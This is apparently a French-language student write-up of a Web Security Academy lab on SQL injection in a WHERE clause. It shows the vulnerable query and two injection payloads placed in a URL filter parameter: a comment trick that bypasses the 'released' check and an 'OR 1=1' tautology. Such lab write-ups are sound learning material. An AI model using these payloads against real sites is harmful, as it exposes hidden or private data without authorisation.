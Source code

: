 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Ce que nous avons

#### Une URL :

```
https://ac6a1f9b1fce2456c0b0092b00b800e0.web-security-academy.net/
```

#### Des filtres :

```
filter?category=Gifts
```

Ces filtres sont accessible par l'url et donc modifiable.
Ils servent à effectuer une requête SQL pour récupérer les éléments d'une table.

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

## Modification de filtres

#### Elements non released

J'ai d'abord modifié les filtres pour afficher tout les éléments même les éléments non marqué comme "released" en commentant les reste de la requête SQL

```
filter?category=Accessories'--
```

#### Tout les élément

Pour finir j'ai entré une condition qui sera toujours vrai pour annuler le filtre par catégories

```
filter?category=Accessories'+OR+1=1--
```